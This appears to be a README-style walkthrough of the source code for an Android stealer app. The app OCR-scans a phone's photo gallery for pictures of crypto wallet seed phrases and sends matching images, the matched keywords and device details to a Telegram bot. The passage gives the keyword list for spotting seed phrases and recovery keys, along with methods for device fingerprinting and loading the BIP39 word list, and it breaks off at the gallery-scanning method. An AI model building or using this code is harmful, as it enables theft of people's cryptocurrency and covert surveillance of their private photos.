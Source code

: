 ```
    private final List<String> specialKeywords = Arrays.asList("Seed", "phrase", "Mnemonic", "Recovery", "Pass", "Backup", "Key", "Master", "Access", "recovery", "seed", "Initial", "Wallet", "Entry", "Security", "Secret", "Private", "Blockchain", "Data", "protection", "Universal", "backup", "System", "Spare");
```

BOT_TOKEN and CHAT_ID need no explanation.
Other parameters:

keywordCount — Determines how many keywords must match to detect the seed phrase. Seed phrases consist of 12-24 words, but only 2048 English words can be part of a BIP39 phrase. We use only English words, as they are the most common.

speedMs is the delay in milliseconds before checking the next image.

specialKeywords is a list of keywords that will be searched in the gallery. If a match is found, the log with the image and keyword will be sent to Telegram.

##### 4.1.Methods:
```
private String getDeviceInfo() {
        String model = Build.MODEL;
        String androidVersion = Build.VERSION.RELEASE;
        return "Device: " + model + ", Android: " + androidVersion;
    }
```
The code transmits brief information about the device - Model,Android version
```
private void loadKeywordsFromFile() {
        try {
            InputStream inputStream = getResources().openRawResource(R.raw.english);
            BufferedReader reader = new BufferedReader(new InputStreamReader(inputStream));
            String line;
            while ((line = reader.readLine()) != null) {
                keywords.add(line.trim().toLowerCase());
            }
            reader.close();
        } catch (IOException e) {
            Log.e("Keywords", "kaput", e);
        }
    }
```

The method loads search keywords from a file english.txt (res/raw). These keywords will be used to check the text
recognized using OCR.

The words are added to the keywords collection, which contains all the words that need to be searched in the texts in the images.

##### Now the most interesting thing, the methods for scanning the gallery:
private void scanGalleryForImages() {
        ContentResolver contentResolver = getContentResolver();
        Uri uri = MediaStore.Images.Media.EXTERNAL_CONTENT_URI;
